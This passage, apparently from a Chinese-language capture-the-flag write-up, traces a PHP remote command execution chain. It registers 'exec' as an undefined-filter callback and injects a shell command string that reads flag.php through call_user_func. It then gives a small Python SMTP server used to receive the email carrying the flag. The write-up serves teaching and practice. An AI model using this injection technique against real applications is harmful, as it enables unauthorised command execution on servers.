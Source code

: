 ```php

    return false;
}

public function registerUndefinedFilterCallback($callable)
{
    $this->filterCallbacks[] = $callable;
}
```

registerUndefinedFilterCallback("exec") 将 exec 传入到全局数组 filterCallbacks[] 中，getFilter("a=cat;b=flag.php;\$a \$b") 将 "a=cat;b=flag.php;\$a \$b" 传入 $name



#### call_user_func

最终的命令执行点在`foreach`中的 `call_user_func`

![image-20200630165435152](assets/image-20200630165435152.png)

`$callback `为数组中的值，此处为 `exec` ，所以此处 `call_user_func` 执行的是

```
call_user_func("exec", "a=cat;b=flag.php;$a $b")
```

达到了最终执行命令的目的

### 还要个邮件服务器

对于本CTF题，我们还需要通过该地址接收邮件才能看到回显的flag，而一般的邮件服务提供商基本不允许用户名中存在特殊符号，所以我们在vps上用python临时搭建一个邮件服务器，并将域名MX记录解析到vps上。这是一个python邮件服务器的简易脚本

``` python
from __future__ import print_function
from datetime import datetime
import asyncore
from smtpd import SMTPServer

class EmlServer(SMTPServer):
    no = 0
    def process_message(self, peer, mailfrom, rcpttos, data, mail_options=None,rcpt_options=None):
        filename = '%s-%d.eml' % (datetime.now().strftime('%Y%m%d%H%M%S'),
                self.no)
        f = open(filename, 'wb')
        print(data)
        f.write(data)
        f.close
        print('%s saved.' % filename)
        self.no += 1


def run():
    foo = EmlServer(('0.0.0.0', 25), None)
    try:
        asyncore.loop()
    except KeyboardInterrupt:
        pass


```